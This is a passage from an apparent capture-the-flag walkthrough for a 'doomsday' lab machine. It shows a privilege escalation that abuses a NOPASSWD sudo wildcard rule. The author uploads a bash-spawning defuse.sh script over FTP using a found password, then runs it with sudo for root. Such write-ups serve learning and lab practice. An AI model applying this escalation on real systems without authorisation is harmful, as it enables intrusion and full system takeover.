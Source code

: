 
Maybe we can switch to the `creed` user now that we've got a shell: 
{% highlight terminal %}
www-data@doomsday:/home$ su creed
su creed
Password: creed223

Nice Try, but this account is limited to FTP access only.
{% endhighlight %}

Moving back to the michael account let's look for some low hanging fruit:
{% highlight terminal %}
michael@doomsday:~$ sudo -l
Matching Defaults entries for michael on doomsday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User michael may run the following commands on doomsday:
    (ALL) NOPASSWD: /home/creed/defuse*
{% endhighlight %}

Let's create a defuse.sh script that drops into a bash shell: 

{% highlight bash %}
#!/bin/bash
/bin/bash
{% endhighlight %}

Then upload it via FTP and change the permissions of the file so that it can be run
as root: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ ftp 192.168.56.181
Connected to 192.168.56.181.
220 (vsFTPd 3.0.3)
Name (192.168.56.181:kali): creed
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> delete defuse.sh 
250 Delete operation successful.
ftp> put defuse.sh 
local: defuse.sh remote: defuse.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
22 bytes sent in 0.00 secs (246.9468 kB/s)
ftp> chmod 777 defuse.sh 
200 SITE CHMOD command ok.
ftp> 
{% endhighlight %}

Getting root:
{% highlight terminal %}
michael@doomsday:~$ sudo /home/creed/defuse*
{% endhighlight %}
